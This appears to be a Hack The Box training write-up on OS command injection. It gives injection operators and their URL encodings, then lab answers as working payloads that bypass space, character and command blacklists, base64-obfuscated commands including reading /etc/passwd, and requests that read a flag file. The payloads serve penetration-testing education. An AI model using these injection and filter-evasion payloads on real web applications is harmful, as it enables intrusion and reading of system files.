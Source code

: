 # [HTB] Command Injections
## Command Injection Methods
## To inject an additional command to the intended one, we may use any of the following operators:

##  Injection Operator	Injection Character	URL-Encoded Character	Executed Command

```Semicolon	      ;	         %3b	      Both```

```New Line	      \n         %0a	      Both```

```Background	      &	         %26	        Both (second output generally shown first)```

```Pipe	              |	          %7c	        Both (only second output is shown)```

```AND	              &&	  %26%26	    Both (only if first succeeds)```

```OR	              ||	  %7c%7c	    Second (only if first fails)```

```Sub-Shell	      ``	  %60%60	    Both (Linux-only)```

```Sub-Shell	     $()	   %24%28%29	  Both (Linux-only)```

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```

## Identifying Filters

>**Q. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```sh
ip=127.0.0.1%0als
```

## Bypassing Space Filters

>**Q. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```sh
ip=127.0.0.1%0a{ls,-la}
```

## Bypassing Other Blacklisted Characters

>**Q. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```sh
ip=127.0.0.1%0a${IFS}ls%09${PATH:0:1}home
```

## Bypassing Blacklisted Commands

>**Q. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**


```sh
ip=127.0.0.1%0a${IFS}c"a"t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

## Advanced Command Obfuscation

>**Q. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```
```
[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
```
[/htb]$ $(rev<<<'imaohw')
```
```
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")
```
```
$(rev<<<'imaohw') 
(([/htb]$echo 'whoami' | rev))
```
```
[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
```
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA

PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```
```
[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

```
```sh
ip=127.0.0.1%0abas$@h<<<$(ba$@se6$@4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

>**Q. What is the content of '/flag.txt'?**

```sh
/index.php?to=&from=51459716.txt%09${PATH}&finish=1&move=1
/index.php?to=&from=51459716.txt%26l's'${IFS}%09${PATH:0:1}&finish=1&move=1
/index.php?to=&from=51459716.txt%26c"a"t${IFS}%09${PATH:0:1}flag.txt&finish=1&move=1
```

